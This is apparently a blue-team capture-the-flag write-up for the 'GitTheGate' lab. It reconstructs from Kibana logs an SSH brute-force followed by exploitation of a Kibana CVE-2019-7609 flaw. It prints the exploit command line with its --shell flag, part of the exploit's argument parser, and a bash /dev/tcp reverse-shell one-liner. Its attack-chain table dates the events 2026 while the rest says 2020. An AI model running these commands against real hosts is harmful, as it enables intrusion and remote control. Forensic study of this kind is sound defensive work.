

# GitTheGate Lab

# Context

Lab link: [https://cyberdefenders.org/blueteam-ctf-challenges/gitthegate/](https://cyberdefenders.org/blueteam-ctf-challenges/gitthegate/)

Suggested tools: ELK

Tactics: Initial Access, Execution, Persistence, Privilege Escalation, Stealth, Credential Access, Discovery, Lateral Movement, Exfiltration, Impact

# Scenario

Overnight we've had an attack on our network, we have two devices in the cloud and it appears both have been compromised. The attack appears to have taken place on the 25th of May between 9 am and 11:30 am. Our network is composed of one box that is front-facing with an SSH port open to the web and a second server behind it running an old Elastic Stack. As a soc analyst recover the information requested in these challenges so we can piece together what happened.

# Questions

Q1- Using the "View Surrounding Documents" option, find the ID of the document that is 14 documents before (older) the id GDQOB3IBwJHf9VOW-r0Y?

Answer: `tzQOB3IBwJHf9VOW-Lyd`

Reason: Using Kibana Discover's "View Surrounding Documents" feature on the document with `_id:GDQOB3IBwJHf9VOW-r0Y` in the `kibana_sample_data_logs` data view (`@timestamp` `2020-05-13T10:56:35.955Z`), the document 14 positions older (chronologically prior, since the default sort is newest-first) resolves to `_id:tzQOB3IBwJHf9VOW-Lyd`.




Q2- Using the "View Surrounding Documents" option, find the IP of the document that is 16 documents after (newer) the id vDQOB3IBwJHf9VOW-Lyd?

Answer: `191.189.39.130`

Reason: Using Kibana Discover's "View Surrounding Documents" feature on the document with `_id:vDQOB3IBwJHf9VOW-Lyd` in the `kibana_sample_data_logs` data view, the document 16 positions newer resolves to `_id:BDQOB3IBwJHf9VOW-L2d` (`@timestamp` `2020-05-13T11:48:25.199Z`), with `clientip` value `191.189.39.130`.


Q3- How many requests have come from the IP address `2.49.53.218` between the 6th of May and the 13th of May? (time is in UTC)

Answer: 7

Reason: Querying the `kibana_sample_data_logs` data view for `"2.49.53.218"` with the time range set to `May 6, 2020 @ 00:00:00.000` through `May 13, 2020 @ 00:00:00.000` UTC returns 7 hits, all `GET` requests from that IP against the sample web logs, with events on `2020-05-06 07:50:29.585`, `2020-05-07 09:22:41.356`, `2020-05-09 06:55:59.616`, `2020-05-09 10:21:29.907`, `2020-05-09 17:42:28.276`, `2020-05-10 03:40:44.506`, and `2020-05-11 06:36:35.076`.


Q4- What percentage of logs are from windows 8 machines on the 11th of May? (time is in UTC)

Answer: `21.74%`

Reason: Querying the `kibana_sample_data_logs` data view for `machine.os.keyword:"win 8"` with the time range set to `May 11, 2020 @ 00:00:00.000` through `May 12, 2020 @ 00:00:00.000` UTC returns 50 hits, out of a total of 230 logs for that full day, yielding a Windows 8 share of 21.74% (50/230).


Q5- How many 503 errors were there on the 8th of May? (time is in UTC)

Answer: 8

Reason: Querying the `kibana_sample_data_logs` data view for `message.keyword contains 503` with the time range set to `May 8, 2020 @ 00:00:00.000` through `May 9, 2020 @ 00:00:00.000` UTC returns 8 hits, all HTTP `response:503` events, with timestamps recorded below.


Q6- How many connections to the host `www.elastic.co` were made on the 12th of May? (time is in UTC)

Answer: 82

Reason: Querying the `kibana_sample_data_logs` data view for `host:"www.elastic.co"` with the time range set to May 12, 2020 (00:00:00.000-23:59:59.999) UTC returns 82 hits.

```bash
host:"www.elastic.co"
82 hits
```

Q7- What is the second most common extension of files being accessed on the 12th of May? (time is in UTC)

Answer: `.gz`

Reason: Using the extension field's "Top values" popup in Kibana Discover on the `kibana_sample_data_logs` data view, with the time range set to May 12, 2020 (00:00:00.000-23:59:59.999) UTC (232 total hits), the file extensions accessed break down as `css` 17.2%, `gz` 16.8%, `zip` 13.8%, `deb` 9.5%, and `rpm` 4.3%, with 38.4% of requests having no extension. Excluding the empty (no-extension) requests, `.css` is the most common extension and `.gz` is the second most common.


Q8- Find the first IP address to connect to the host [elastic-elastic-elastic.org](http://elastic-elastic-elastic.org/) on the 12th of May. (time is in UTC)

Answer: `114.246.225.218`

Reason: Querying the `kibana_sample_data_logs` data view for `"elastic-elastic-elastic.org"` with the time range set to May 12, 2020 (00:00:00.000-23:59:59.999) UTC returns 7 hits; sorted ascending by `@timestamp`, the earliest event occurred at `2020-05-12 03:21:13.279` with `clientip` value `114.246.225.218`.


Q9- What was the username used that failed to log in on the 15th of May at 10:44 pm? (time is in UTC)

Answer: `deploy`

Reason: Querying the `auditbeat-*` data view for `event.type:"authentication_failure"` with the time range set to `May 15, 2020 @ 22:44:00.000` to `May 15, 2020 @ 22:45:00.000` UTC returns 3 hits, all logged within the same second window (`22:44:34.000`-`22:44:34.580`). Two carry placeholder `user.name` values (`(invalid user)`, `(unknown user)`), while the third records an actual attempted username, `deploy`, at `2020-05-15 22:44:34.000`.


Q10- According to the logs, which vulnerable version of Kibana was identified as running in the stack?

Answer: `7.6.2`

Reason: The `agent.version` field in the beats logs shows the stack running Kibana `7.6.2`, a version affected by the critical prototype pollution vulnerability in the Upgrade Assistant tracked as `CVE-2020-7012` (`ESA-2020-05`), which impacts Kibana releases prior to `7.6.3`.

Q11- Using current data in the `auditbeat` index, what is the name of the `elasticsearch` node? (one word)

Answer: `elkstack`

Reason: Querying the `auditbeat-*` data view's `host.name` field, excluding the noisy `ubuntu-s-2vcpu-4gb-sgp1-01` value with `not host.name: "ubuntu-s-2vcpu-4gb-sgp1-01"`, leaves two remaining hostnames: `sshbox` and `elkstack`. Filtering further with `host.name: elkstack` confirms `elkstack` as the Elasticsearch node's hostname value in the index.

```bash
not host.name: "ubuntu-s-2vcpu-4gb-sgp1-01"
host.name: elkstack
```

Q12- What is the name of the beat to collect windows logs? (one word)

Answer: `winlogbeat`

Reason: The Elastic Beat designed to collect Windows Event Log data is `winlogbeat`. It does not appear as an active data source in this lab's stack, which uses only `auditbeat-*` and `filebeat-*` against the two Linux hosts (`sshbox` and `elkstack`).

Q13- What is the name of the beat that sends network data? (one word)

Answer: `packetbeat`

Reason: The Elastic Beat designed to collect network traffic data is `packetbeat`. Like `winlogbeat`, it does not appear as an active data source in this lab's stack, which remains limited to `auditbeat-*` and `filebeat-*`.

Q14- How many fields are in the `auditbeat-*` index pattern?

Answer: 437

Reason: Under Stack Management → Data Views → `auditbeat-*`, the Fields tab shows 437 fields defined in the `auditbeat-*` index pattern.


Q15- On the 14th of May, how many failed authentication attempts did the host server receive? (time is in UTC)

Answer: 762

Reason: Querying the `auditbeat-*` data view for `event.type:"authentication_failure"` with the time range set to May 14, 2020 (00:00:00.000-23:59:59.999) UTC returns 762 hits, indicating 762 failed authentication attempts against the host server that day.

```bash
event.type:"authentication_failure"
762 hits
```

Q16- On the 13th and 14th of May, how many bytes were received by the source IP 159.89.203.214 (time is in UTC)

Answer: 492,919

Reason: Using a visualization on the `auditbeat-*` data view, filtered by `source.ip:"159.89.203.214"` with the time range set to `May 13, 2020 @ 00:00:00.000` through `May 15, 2020 @ 00:00:00.000 UTC`, the sum of the `client.bytes` field returns 492,919 bytes.


Q17- What username did they crack?

Answer: `johnny`

Reason: Using a stacked bar visualization on `auditbeat-*` (query `event.type:authentication*`, top 5 values of `user.name.keyword` broken down by `event.outcome.keyword`), the `johnny` account is the only one of the top targeted usernames showing a `success` event stacked atop its `failure` count, while `admin`, `huawei`, and `user` show failure-only bars. This confirms `johnny` as the username that was successfully cracked via brute-force authentication.


Q18- What host was attacked?

Answer: `sshbox`

Reason: Querying the `auditbeat-*` data view for `event.type:"authentication_success" AND user.name:"johnny"` returns 6 hits, all with `agent.hostname:"sshbox"`, confirming `sshbox` as the host that was successfully attacked and authenticated against as user `johnny`.

```bash
event.type: 'authentication_success' AND user.name: 'johnny'
6 hits
agent.hostname: sshbox
```

Q19- How many failed attempts were made on the machine?

Answer: 12523

Reason: Querying the `auditbeat-*` data view for `host.name:"sshbox" and event.type:"authentication_failure"` (full time range) returns 12,523 hits, indicating 12,523 failed authentication attempts against `sshbox` prior to the successful `johnny` login.

```bash
host.name:"sshbox" and event.type:"authentication_failure"
12,523 hits
```

Q20- What time was the last failed attempted login?

Answer: `11:39:31`

Reason: Querying the `auditbeat-*` data view for `event.type:authentication_failure AND host.hostname:sshbox AND user.name:johnny`, sorted descending by `@timestamp`, the most recent failed attempt occurred at `2020-05-25 11:39:31.000` UTC, immediately preceding the successful brute-force login as `johnny`.

```bash
event.type:authentication_failure AND host.hostname:sshbox AND user.name:johnny

@timestamp: May 25, 2020 @ 11:39:31.000
```

Q21- What time did the attacker successfully login?

Answer: `11:50:13`

Reason: Querying the `auditbeat-*` data view for `event.type:authentication_success AND host.hostname:sshbox AND user.name:johnny` across May 1-31, 2020 returns 6 hits. The event immediately following the failed-login flood that ended at `2020-05-25 11:39:31.000` UTC occurred at `2020-05-25 11:50:13.111` UTC, confirming this as the attacker's successful brute-force login to `sshbox` as user `johnny`.


Q22- What tool did the attacker use to get the exploit onto the machine?

Answer: `git`

Reason: Querying the `auditbeat-*` data view for `host.hostname:sshbox AND user.name:johnny and "git"` across May 1-31, 2020 returns 4 hits, all `process.executable:/usr/lib/git-core/git-remote-https` events beginning at `2020-05-25 12:34:23.886` UTC, with `process.args` showing `origin <https://github.com/LandGrey/CVE-2019-7609.git`>. This confirms the attacker used `git` to clone the `CVE-2019-7609` exploit repository onto `sshbox` after gaining access as `johnny`.

```bash
host.hostname:sshbox AND user.name:johnny and "git"
```


Q23- Shortly after getting the exploit on the machine, the attacker used vim to create a file. What is the name of that file?

Answer: `ElasticCTFisFun!`

Reason: Querying the `auditbeat-*` data view for `host.hostname:sshbox AND user.name:johnny and "vim"` across May 1-31, 2020 returns 2 hits, both `process.args` showing `vim ElasticCTFisFun!`, at `2020-05-25 12:37:07.193` UTC and `2020-05-25 12:37:17.193` UTC. This confirms the attacker used `vim` to create a file named `ElasticCTFisFun!` shortly after cloning the `CVE-2019-7609` exploit repository.


Q24- What is the filename of the exploit that was run?

Answer: `CVE-2019-7609-kibana-rce.py`

Reason: Querying the `auditbeat-*` data view for `host.hostname:sshbox AND user.name:johnny and "CVE-2019-7609"` across May 1-31, 2020 returns 11 hits. Among them, `process.args` from `2020-05-25 12:44:38.886` UTC onward shows repeated executions of `python2 CVE-2019-7609-kibana-rce.py -u <http://10.116.0.3:5601> -host ...`, confirming the exploit filename as `CVE-2019-7609-kibana-rce.py`, launched from `sshbox` against `10.116.0.3:5601`.

```bash
host.hostname:sshbox AND user.name:johnny and "CVE-2019–7609"
```


Q25- What is the first ID of the log that shows the exploit being run?

Answer: `_SHbS3IBCEolQs9lAD3z`

Reason: Querying the `filebeat-*` data view for `"CVE-2019-7609"`, sorted ascending by `@timestamp`, the earliest matching event is `_id:_SHbS3IBCEolQs9lAD3z` at `2020-05-25 12:42:21.402` UTC. This is an `event.dataset:auditd.log`, `event.action:proctitle` record — the audit framework's `PROCTITLE` type, which reconstructs and displays a process's full command line as one readable string, distinct from the `SYSCALL`/`EXECVE` records sharing the same `auditd.log.sequence` (`2,391`) that only log individual syscall arguments. Its `auditd.log.proctitle` field reads `python2^@CVE-2019-7609-kibana-rce.py^@-h` (the `^@` characters are the null-byte argument separators `auditd` uses internally), confirming this as the first log entry that actually shows the `CVE-2019-7609-kibana-rce.py` exploit script being invoked, run with the `-h` (help/usage) flag two minutes ahead of the functional exploitation attempt against `10.116.0.3:5601`.

Q26- What parameter turned the script from testing to exploiting?

Answer: `--shell`

Reason: Reviewing the official `CVE-2019-7609-kibana-rce.py` exploit source on GitHub, the argument parser defines `--shell` (`dest='reverse_shell', action="store_true", help='reverse shell after verify'`). Without this flag, the script only verifies the vulnerability is exploitable; passing `--shell` is what triggers it to actually pop a reverse shell to the attacker-controlled `-host`/`-port`, turning the script's behavior from a pure vulnerability test into active exploitation.

```python
# https://github.com/LandGrey/CVE-2019-7609/blob/master/CVE-2019-7609-kibana-rce.py
[...]
if __name__ == "__main__":
    start = time.time()

    parser = argparse.ArgumentParser()
    parser.add_argument("-u", dest='url', default="http://127.0.0.1:5601", type=str, help='such as: http://127.0.0.1:5601')
    parser.add_argument("-host", dest='remote_host', default="127.0.0.1", type=str, help='reverse shell remote host: such as: 1.1.1.1')
    parser.add_argument("-port", dest='remote_port', default="8888", type=str, help='reverse shell remote port: such as: 8888')
    parser.add_argument('--shell', dest='reverse_shell', default='', action="store_true", help='reverse shell after verify')
```

Q27- Determining the destination IP is key to tracing the attacker's actions. What is the destination IP address where the malicious shell was sent?

Answer: `10.116.0.2`

Reason: Querying `filebeat-*`/`auditbeat-*` for the exploit's follow-up shell execution shows `process.args:[/bin/sh, -c, if [ ! -f /tmp/lgfipjyt ];then touch /tmp/lgfipjyt && /bin/bash -c '/bin/bash -i >& /dev/tcp/10.116.0.2/8888 0>&1'; fi]`. This is a reverse shell one-liner using `/dev/tcp` bash redirection, confirming the malicious shell was sent to destination IP `10.116.0.2` on port `8888` — matching the `-host`/`-port` arguments passed to `CVE-2019-7609-kibana-rce.py --shell` earlier.

```python
process.args
[/bin/sh, -c, if [ ! -f /tmp/lgfipjyt ];then touch /tmp/lgfipjyt && /bin/bash -c '/bin/bash -i >& /dev/tcp/10.116.0.2/8888 0>&1'; fi]
```

Q28- Identifying new users is vital to uncovering unauthorized access. What was the name of the user they created?

Answer: `Thanks4Playing`

Reason: Querying for `useradd` across May 1-31, 2020 returns 3 hits; the third, at `2020-05-25 13:07:26.794` UTC, shows `process.args:[useradd, Thanks4Playing]`, confirming the attacker created a new local user account named `Thanks4Playing` on the compromised host as part of establishing persistence.


# Attack Chain

| Time (UTC) | Stage | Detail | MITRE |
| --- | --- | --- | --- |
| 2026-05-25 11:39:31 | Credential Access | Final failed SSH authentication attempt against `sshbox` as user `johnny`, part of a sustained brute-force campaign totaling `12,523` failures. | `T1110` |
| 2026-05-25 11:50:13 | Initial Access | Successful SSH authentication to `sshbox` as `johnny`, immediately following the failed-login flood. | `T1110`, `T1078` |
| 2026-05-25 12:34:23 | Resource Development / Tool Transfer | Attacker cloned the `CVE-2019-7609-kibana-rce.py` exploit from `https://github.com/LandGrey/CVE-2019-7609.git` using `git`. | `T1105` |
| 2026-05-25 12:37:07 | Execution | Attacker used `vim` to create a file named `ElasticCTFisFun!` on `sshbox`. | `N/A` |
| 2026-05-25 12:42:21 | Discovery | First execution of `python2 CVE-2019-7609-kibana-rce.py -h`, checking exploit usage before the real attempt (captured in the `PROCTITLE` audit record `_SHbS3IBCEolQs9lAD3z`). | `N/A` |
| 2026-05-25 12:44:38 | Initial Access | Exploit run for real with `python2 CVE-2019-7609-kibana-rce.py -u <http://10.116.0.3:5601> -host 10.116.0.2 -port 8888 --shell` against the `elkstack` Kibana `7.6.2` instance (`CVE-2019-7609`). | `T1190` |
| 2026-05-25 12:44:38 | Command and Control | Reverse shell callback established via `/bin/bash -i >& /dev/tcp/10.116.0.2/8888 0>&1`, sent from the exploited Kibana host to attacker-controlled `10.116.0.2:8888`. | `T1059.004`, `T1071` |
| 2026-05-25 13:07:26 | Persistence | New local user account `Thanks4Playing` created via `useradd`. | `T1136.001` |

## Attack Tree

```python
[Initial Access]  ← attacker → sshbox (front-facing SSH server)
    └── SSH brute-force against johnny
        └── 12,523 failed attempts, last at 11:39:31
            └── successful login at 11:50:13
                ├── [Stage 1 — Tooling]
                │   └── git clone https://github[.]com/LandGrey/CVE-2019-7609.git  ← exploit fetched
                │       └── vim ElasticCTFisFun!  ← marker/note file created
                └── [Stage 2 — Exploitation]
                    └── python2 CVE-2019-7609-kibana-rce.py -h  ← usage check (12:42:21)
                        └── python2 CVE-2019-7609-kibana-rce.py -u http://10.116.0.3:5601 -host 10.116.0.2 -port 8888 --shell  ← real exploit run (12:44:38)
                            └── [Stage 3 — C2]
                                └── reverse shell to 10.116.0.2:8888 via /dev/tcp
                                    └── [Stage 4 — Persistence]
                                        └── useradd Thanks4Playing (13:07:26)
```

# Artifacts

| Category | Type | Value |
| --- | --- | --- |
| Host | Front-facing SSH server | `sshbox` |
|  | Backend Elastic Stack server | `elkstack` |
|  | Elasticsearch node hostname | `elkstack` |
| Vulnerability | Kibana version | `7.6.2` |
|  | CVE (initial access) | `CVE-2019-7609` |
|  | CVE (Kibana Upgrade Assistant, identified) | `CVE-2020-7012` |
| Credential Access | Cracked account | `johnny` |
|  | Failed attempt count | `12,523` |
|  | Successful login time | `2020-05-25 11:50:13.111 UTC` |
| Delivery | Exploit source | `https://github[.]com/LandGrey/CVE-2019-7609.git` |
|  | Exploit filename | `CVE-2019-7609-kibana-rce.py` |
|  | Exploitation flag | `--shell` |
| Network | Exploit target | `10.116.0.3:5601` |
|  | Reverse shell destination | `10.116.0.2:8888` |
| Persistence | Created user account | `Thanks4Playing` |
| Host Indicators | File created via `vim` | `ElasticCTFisFun!` |
|  | Reverse shell lock file | `/tmp/lgfipjyt` |

# Lab Insights

- **Named indices don't guarantee where the data lives.** The `auditd.log` dataset — despite the name implying Auditbeat — was actually shipped by Filebeat tailing `/var/log/audit/audit.log` directly. Assuming a log source based on naming convention alone (rather than checking `agent.type`/`event.module`) cost real time bouncing between `auditbeat-*` and `filebeat-*` looking for the same event.
- **A single process execution isn't a single log document.** Linux's audit framework splits one `execve()` call into multiple linked records (`SYSCALL`, `EXECVE`, `PROCTITLE`, `CWD`, `PATH`), tied together only by `auditd.log.sequence`, not by a shared field set. A filter that works for one record type (e.g. `user.name:johnny` on a `SYSCALL` record) can silently exclude a `PROCTITLE` record of the exact same underlying event, because that record type doesn't populate the same fields. Query broadly first, then narrow, rather than assuming one filter generalizes across an entire audit trail.
- **Kibana's own demo dataset is a trap and a tool in one lab.** `kibana_sample_data_logs` had no bearing on the real incident, but the lab used it deliberately to teach Discover mechanics (View Surrounding Documents, field Top Values, extension breakdowns) before the real investigation began against `auditbeat-*`/`filebeat-*`. Recognizing a data view's actual provenance — is this attacker-touched infrastructure or vendor sample data — has to happen before trusting anything found in it.
- **The exploit script's own help output was itself forensic evidence.** Attackers running `-h` or `--help` before the real attack is common recon/verification behavior, and it left an independent, earlier log entry than the actual exploitation attempt. A brute-force success time, an exploit's test run, and its live run are three distinct timestamps worth separating in any timeline, not collapsing into one "attack happened" event.